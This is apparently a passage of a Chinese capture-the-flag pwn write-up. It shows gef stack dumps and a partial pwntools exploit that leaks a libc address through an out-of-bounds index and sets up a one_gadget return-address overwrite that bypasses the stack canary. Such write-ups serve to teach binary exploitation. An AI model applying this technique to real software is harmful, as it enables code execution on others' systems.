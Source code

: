 ### 利用

先leak出libc地址

libc在rsp+0x280处，一开始输入的name在rsp + 0x170处，

```
gef➤  dereference $rsp
0x00007fffffffdc90│+0x0140: 0x0000000000000000
0x00007fffffffdc98│+0x0148: 0x0000000000000000
0x00007fffffffdca0│+0x0150: 0x0000000000000000
0x00007fffffffdca8│+0x0158: 0x82e23df75b4cba00
0x00007fffffffdcb0│+0x0160: 0x00007fffffffddd0  →  0x0000555555554ca0  →   push r15	 ← $rbp
0x00007fffffffdcb8│+0x0168: 0x0000555555554b11  →   test eax, eax
0x00007fffffffdcc0│+0x0170: 0x0000000a6377696c ("liwc"?)


gef➤  dereference $rsp
0x00007fffffffddd0│+0x0280: 0x0000555555554ca0  →   push r15
0x00007fffffffddd8│+0x0288: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax

```

可以看到，在libc地址为0x7f766337c830时，leak出的值为ffffffc8，所以只需要删除ffffff即可。

```
0x00007fffbaeeb878│+0x0288: 0x00007f765337c830  →  <__libc_start_main+240> mov edi, eax
['30', 'ffffffc8', '37', '53', '76', '7f', '0', '0']
```

最后直接把retn地址覆盖为one_gadget即可，直接绕过了canary，exp如下

```python
from pwn import *
import struct
# from LibcSearcher import *
context.log_level = "debug"

p = process("./pwn")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.recvuntil("name:")
p.sendline("liwc")
nums = []
for i in range(8):
	p.recvuntil("index\n")
	p.sendline(str(0x288 - 0x10 + i))
	num = p.recvline().split(' ')[-1].strip()
	p.recvuntil("input new value\n")
	p.sendline(str(int("0x" + num, 16)))
	if num.startswith("ffffff"):
		num = num[-2:]
	nums.append(num)

tmp = ""
for ch in [chr(int("0x" + i, 16)) for i in nums]:
	tmp += ch
libc_addr = u64(tmp)
libc_base = libc_addr - 0x20830
print hex(libc_addr)

# gdb.attach(p)
one_gadget = 0x45216 # 0x4526a 0xf02a4 0xf1147
one_gadget += libc_base
one_gadget = p64(one_gadget)
rip = (0x150 + 8)

```